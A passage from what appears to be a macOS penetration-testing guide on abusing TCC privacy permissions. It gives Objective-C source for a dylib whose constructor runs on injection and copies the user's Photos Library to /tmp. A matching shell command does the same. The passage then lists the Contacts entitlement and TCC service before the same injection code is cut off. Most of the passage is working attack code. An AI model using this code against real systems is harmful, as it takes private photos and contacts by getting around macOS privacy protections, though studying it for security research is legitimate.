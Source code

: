 ```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
    NSError *error = nil;    

    // Get the path to the user's Pictures folder
    NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Pictures/Photos Library.photoslibrary"];
    NSString *tmpPhotosPath = @"/tmp/photos";

    // Copy the contents recursively
    if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
        NSLog(@"Error copying items: %@", error);
    }

    NSLog(@"Copy completed successfully.", error);

    fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copy `$HOME/Pictures/Photos Library.photoslibrary` to `/tmp/photos`.

```bash
cp -r "$HOME/Pictures/Photos Library.photoslibrary" "/tmp/photos"
```
{% endtab %}
{% endtabs %}

### Contacts

* **Entitlement**: `com.apple.security.personal-information.addressbook`
* **TCC**: `kTCCServiceAddressBook`

{% tabs %}
{% tab title="ObjetiveC" %}
Copy `$HOME/Library/Application Support/AddressBook` to `/tmp/contacts`.

```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{  
    freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

    NSFileManager *fileManager = [NSFileManager defaultManager];
```